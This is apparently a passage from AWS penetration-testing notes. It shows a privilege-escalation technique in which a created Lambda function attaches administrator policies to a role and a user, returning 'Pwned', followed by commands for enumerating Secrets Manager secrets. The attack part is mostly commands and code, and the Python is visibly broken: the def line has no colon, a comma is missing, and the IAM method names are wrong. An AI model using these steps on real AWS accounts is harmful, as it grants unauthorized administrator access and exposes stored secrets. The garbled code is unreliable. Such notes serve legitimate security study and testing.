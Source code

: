 ```
aws lambda create-function --function-name my-function --runtime python3.7 --zip-file fileb://my-function.zip --handler my-function.handler --role ARN --region region
```

* Inside the function's code, we will add the administrator permission to the role and to the user

#### Example code to add the permissions

```python
import boto3
import json

def handler(event,context)
	iam = boto3.client("iam")
	iam.attach.role.policy(RoleName="name",PolicyArn="arn",)
	iam.attach.user.policy(UserName="name",PolicyArn="arn",)
	return {
		'statusCode':200
		'body':json.dumps("Pwned")
	}
```

### Invoke a lambda function

```
aws lambda invoke --function-name name response.json --region region 
```

### Listing managed policies to see if the change worked

```
aws iam list-attached-user-policies --user-name user_name
```

# AWS Secret Manager

* AWS Service that encrypts and store secrets
* Transparently decrypts and return in plaintext
* KMS used to store keys (AWS Key and Customer Managed Key)
* Asymmetric and Symmetric keys can be created using KMS


## Enumeration

### Listing all secrets stored by Secret Manager

```
aws secretsmanager list-secrets
```

### Listing information about a specific secret

```
aws secretsmanager describe-secret --secret-id name
```
